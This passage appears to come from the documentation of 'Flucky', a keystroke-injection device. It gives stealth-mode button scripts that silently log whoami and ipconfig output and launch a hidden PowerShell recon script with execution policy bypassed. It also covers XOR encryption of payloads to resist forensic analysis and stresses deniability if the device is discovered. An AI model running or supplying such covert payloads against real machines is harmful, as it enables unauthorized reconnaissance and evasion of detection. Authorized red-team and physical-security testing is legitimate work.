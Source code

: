**Best Practices:**
```bash
# Covert operation sequence
STEALTH_ON
BUTTON_DEF
DELAY 2000
STRING whoami > C:\temp\log.txt
ENTER
DELAY 1000
STRING ipconfig /all >> C:\temp\log.txt
ENTER
END_BUTTON
# Device now operates completely silently
```

### Real-World Stealth Scenarios

**Corporate Red Team:**
```bash
STEALTH_ON
BUTTON_DEF
DELAY 3000
WIN r
STRING powershell -WindowStyle Hidden -ExecutionPolicy Bypass -File C:\temp\recon.ps1
ENTER
END_BUTTON
```

**Physical Security Assessment:**
```bash
STEALTH_ON
# Device placed in target area
# No visual indicators when buttons pressed
# Complete deniability if discovered
```

## 🔐 Encryption & Security

### Military-Grade Payload Protection

Flucky's encryption system ensures your payloads remain secure even if the device is captured or analyzed.

#### `SET_XOR_KEY <key>`
**Description:** Set XOR encryption key for all scripts  
**Usage:** `SET_XOR_KEY MySecretPassword123!`  
**Parameters:** Encryption key (1-256 characters)  
**Effects:**
- ✅ All new scripts automatically encrypted with key
- ✅ Existing scripts re-encrypted with new key
- ✅ Encryption applies to:
  - Button scripts
  - Secondary button scripts  
  - Easter egg scripts
  - Scheduled payloads
  - Gaslight profiles
